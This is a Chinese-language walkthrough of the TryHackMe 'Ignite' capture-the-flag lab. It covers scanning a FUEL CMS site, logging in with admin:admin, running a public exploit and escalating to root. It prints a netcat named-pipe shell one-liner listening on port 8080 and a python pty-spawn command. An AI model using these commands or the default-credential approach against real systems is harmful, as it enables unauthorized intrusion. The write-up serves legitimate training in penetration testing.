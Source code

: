 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme-Ignite靶场wp/","title":"tryhackme-Ignite靶场wp","tags":["tryhackme","linux","#oscp","#靶场"]}
---
```


总算是解决了openvpn连接的问题 开始来打靶场

从简单的Ignite开始

首先访问靶场ip会发现是个cms的网站

![wang](/img/user/images/tryhackme-Ignite靶场wp/fuel.png)

用nmap去扫描会发现有一个文件引起了我们的注意

![wang](/img/user/images/tryhackme-Ignite靶场wp/nmap.png)

浏览那个网站会发现是一个登录界面 随便用一个弱密码admin:admin 居然等进去了

![wang](/img/user/images/tryhackme-Ignite靶场wp/login.png)

找不到东西 只能去找找有什么漏洞吗

![wang](/img/user/images/tryhackme-Ignite靶场wp/loudong.png)

用第三个漏洞

![wang](/img/user/images/tryhackme-Ignite靶场wp/liyong.png)

成功攻进去 我们进去看看有什么信息吗

没啥头绪 只能去看看网站有啥信息吗

![wang](/img/user/images/tryhackme-Ignite靶场wp/tip.png)

访问第二个高亮的文本就是藏着用户账户密码的地方

![wang](/img/user/images/tryhackme-Ignite靶场wp/user.png)

但这个命令行太不方便了 我用反弹shell来连接

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```
[[tryhackme/tryhackme-shell：概括#^171f63\|tryhackme-shell：概括#^171f63]]

![wang](/img/user/images/tryhackme-Ignite靶场wp/fantan.png)

连接上之后就找找flag在哪 其实可用find来找的 但也不知道是不是用flag命名 只能随便逛逛 在/home中找到www-data 和我们登录的用户名一模一样 进去找到第一个flag

![wang](/img/user/images/tryhackme-Ignite靶场wp/flag1.png)

前面知道了root账户和密码 就用su root来提权

但发现只能是交互式终端才能提权

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![wang](/img/user/images/tryhackme-Ignite靶场wp/root.png)

进入root目录就能找到root的flag